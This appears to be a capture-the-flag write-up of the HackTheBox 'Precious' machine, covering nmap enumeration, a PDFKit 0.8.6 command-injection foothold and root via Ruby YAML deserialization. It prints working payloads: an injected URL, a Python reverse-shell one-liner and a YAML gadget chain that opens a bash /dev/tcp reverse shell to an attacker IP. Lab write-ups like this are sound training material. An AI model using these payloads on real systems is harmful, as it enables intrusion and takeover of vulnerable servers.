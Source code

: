 ```yaml
---
title: "HackTheBox - Precious"
author: Nasrallah
description: ""
date: 2023-02-23 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, ruby, yaml, rce, sudo, cve]
img_path: /assets/img/hackthebox/machines/precious
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Precious](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.11.189
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have an OpenSSH running on port 22 and Nginx on port 80.

### Web

From the nmap scan we see that we get redirected to precious.htb, os let's add it to /etc/hosts and navigate to the web page.

![](1.png)

Here we have a web page convertor where we give it a url and returns a pdf.

I created file and served it with python3 http server and submitted the url.

![](2.png)

We got back a pdf.

![](3.png)

Inspecting the pdf using `exiftool` we manage to find something interesting.

![](4.png)

The pdf was generated by PDFkit v0.8.6.

## **Foothold**

After some research we find that this version of PDFkit is vulnerable to [command injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

The vulnerability relies when the application tries to render a URL that contains query string parameters with user input like the following:

```text
http://x.x.x.x/?hack=%20`id`
```

Let's try submitting the above url.

![](5.png)

We got command execution, now let's get a reverse shell by replacing `id` with the following python3 reverse shell.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.90",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![](6.png)


## **Privilege Escalation**

Checking ruby's home directory, we find a hidden file called `.bundle`, and inside it we find some credentials.

![](7.png)

Let's ssh with our new user.

Checking Henry's privileges, we see that we can run a ruby script as sudo.

```terminal
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

The ruby file has the following code.

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

When the script is run, it loads a file called `dependencies.yml` using `YAML.load` then reads it.

Searching for ruby yaml injection, i found this [article](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) that showcases a Code Execution through YAML Deserialization.

The code used to get the command execution is the following.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "id"
         method_id: :resolve
```

Since the the script does not loads the `dependencies.yml` from where ever you run the script, we can create the file with the malicious code above to get command execution.

![](8.png)

Great! We got command execution, now let's get a reverse shell.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.17.90/9001 0>&1'"
         method_id: :resolve
```

![](9.png)

And just like that we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
